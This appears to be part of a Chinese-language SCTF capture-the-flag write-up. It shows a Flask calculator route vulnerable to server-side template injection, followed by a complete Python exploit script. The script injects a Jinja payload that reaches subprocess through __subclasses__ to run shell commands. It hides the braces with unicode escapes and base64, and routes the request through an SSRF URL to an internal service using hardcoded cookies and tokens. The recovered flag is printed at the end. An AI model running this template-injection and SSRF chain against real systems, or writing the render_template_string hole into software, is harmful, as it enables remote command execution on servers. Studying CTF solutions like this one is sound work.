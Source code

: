 ```python
@app.route('/caculator', methods=["POST"])
def caculator():
    try:
        data = request.get_json()
    except ValueError:
        return json.dumps({"code": -1, "message": "Request data can't be unmarshal"})
    num1 = str(data["num1"])
    num2 = str(data["num2"])
    symbols = data["symbols"]
    if re.search("[a-z]", num1, re.I) or re.search("[a-z]", num2, re.I) or not re.search("[+\-*/]", symbols):
        return json.dumps({"code": -1, "message": "?"})

    return render_template_string(str(num1) + symbols + str(num2) + "=" + "?")
```





最后的payload:

```python
import requests
import base64
import json
num1=1
num2=2
symbols="-{{''.__class__.__mro__[1].__subclasses__()[409]('/readflag',shell=True,stdout=-1).communicate()}}-"
data={
    "num1":num1,
    "num2":num2,
    "symbols":symbols
}
payload=json.dumps(data).replace("{{","\\u007b\\u007b").replace("}}","\\u007d\\u007d")
payload=base64.b64encode(payload)
print(payload)
burp0_url = "http://39.104.19.182:80/home/"
burp0_cookies = {"sessionid": "bd63u3ewjx05tc7ajvlkve7b9cu8h4kx", "csrftoken": "GBW7niMYrwP9fMP6jpgHN1ujcxEwuRQ4tMKdBDdnZvSlDny51S1K1cMmWtOsR0gO"}
burp0_headers = {"Pragma": "no-cache", "Cache-Control": "no-cache", "Accept": "application/json, text/plain, */*", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36", "Content-Type": "application/json;charset=UTF-8", "Origin": "http://39.104.19.182", "Referer": "http://39.104.19.182/home/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7", "Connection": "close"}
burp0_json={"token": "3ad9af405504233188f694a11ff22115", "url": "http://39.104.19.182//127.0.0.1:8000/rpc?url=http://127.0.0.1:5000/caculator&methods=POST&data={payload}".format(payload=payload)}
print(requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, json=burp0_json).text)
```



`SCTF{2b19246757c63738e7c40bbdf87c3be1}`
